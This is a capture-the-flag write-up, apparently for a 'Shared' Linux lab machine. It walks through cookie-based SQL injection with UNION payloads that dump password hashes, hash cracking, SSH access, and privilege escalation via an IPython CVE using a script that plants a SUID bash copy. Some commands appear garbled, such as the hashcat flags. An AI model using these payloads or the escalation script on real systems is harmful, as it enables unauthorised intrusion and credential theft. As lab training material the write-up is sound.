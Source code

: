 # Shared
### Medium linux box

##### Start with an nmap scan:
![alt-text](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FsixO74ZQmWWjbatdV7WQ%2Fuploads%2FvunymQaGuIELhAVfpFNU%2Fnmapscan.jpg?alt=media&token=36d6168c-845f-4150-be68-ecfc1a51dd68 "nmap results")

##### Visit port 80 and navigate to the checkout page. There's a URL encoded cookie named `custom_cart=`. Decode the cookie and note it's format: `<Item>:<Quantity>`

##### The cookie ended up being vulnerable to SQLi. Portswigger's sqli courses helped a lot here. URL encode the payload.

#### `' UNION SELECT 1 -- -` No values
#### `' UNION SELECT 1,2 -- -` No values
#### `' UNION SELECT 1,2,3 -- -` Values are reflected!
![alt-text](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FsixO74ZQmWWjbatdV7WQ%2Fuploads%2FiMA8il58YnoiSfSBNhwv%2FBURPCOOKIESQL.jpg?alt=media&token=ca2f7673-855a-4e73-9e13-626d989795d6)

### SQLi payloads:
##### Find current database:
#### `' UNION SELECT 1,database(),3 -- -`
##### Get tables in checkout database:
#### `'UNION SELECT 1,group_concat(table_name),3 from information_schema.tables WHERE table_schema='checkout' -- -`
##### Enumerate columns in user table from the checkout database:
#### `' UNION SELECT 1,group_concat(column_name),3 from information_schema.tables WHERE table_schema='user' -- -`
##### Get values from the user table:
#### `' UNION SELECT 1,group_concat(id, ':', password),3 from checkout.user -- -`

##### Finally, we get a hash that we can crack! I used hashcat
#### `hashcat -a -0 -m -0 <hash> <wordlist>`

##### ssh into the james_mason account with the cracked password

### Privilege Escalation
##### Transfer pspy64 and linpeas to the machine to see running processes and find sensitive files.
##### We find ipython and an interesting file, `/opt/scripts_review`. It reveals a cronjob being every minute by `dan_smith`
```bash
/bin/sh -c
/usr/bin/pkill ipython;
cd opt/scripts review/ && /usr/local/bin/ipython
```
##### Looking more into ipython, I found CVE-2022-21699. "Arbitrary code execution vulnerability in IPython that stems from IPython executing untrusted files in CWD. This vulnerability allows one user to run code as another"
#####   1. Based on the cronjob ipython is executed at `/opt/scripts_review` directory where we have write access
#####   2. We have to create `/opt/scriptsreview/profile_default` and `opt/scripts_review/profile_default/startup`
#####   3. Create a python script to set `dan_smith` SUID bit to `/bin/bash` for us to escalate priveleges at `/opt/scripts_review/profile_default/startup`
#### Make ascript that creates a directory and another python script that executes `script.sh`
```bash
james_mason@shared:/tmp$ cat script.sh
mkdir -m 777 /opt/scripts_review/profile_default
mkdir -m 777 /opt/scripts_review/profile_default/startup
echo 'import os; os.system("cp /bin/bash /tmp/danbash; chmod u+s /tmp/danbash")' > /opt/scripts_review/profile_default/startup/foo.py
james_mason@shared: /tmp$ chmod +x script.sh
james_mason@shared: /tmp$ ./script.sh
```
![alt-text](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FsixO74ZQmWWjbatdV7WQ%2Fuploads%2FiHCOT3FpQ65fr8Iq6a5t%2Fimage.png?alt=media&token=188fb7a8-1648-49d5-bfdd-b4b9e7dc80cb "script.sh")

##### Keep running `script.sh` because there's a cronjob running as root that deletes everything in `scripts_review`. Wait for the cronjob to execute and create `danbash`. Then execute `danbash`

```bash
james_mason@shared: /tmp$ ./danbash -p
```
##### From there you can copy the ssh key for `dan_smith` and ssh into the account
![alt-text](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FsixO74ZQmWWjbatdV7WQ%2Fuploads%2FRENhkyRf5bpOe4mSigPK%2Fimage.png?alt=media&token=d22f0e92-ee4f-48ae-bfa5-dd01ac9eb785 "id_rsa")



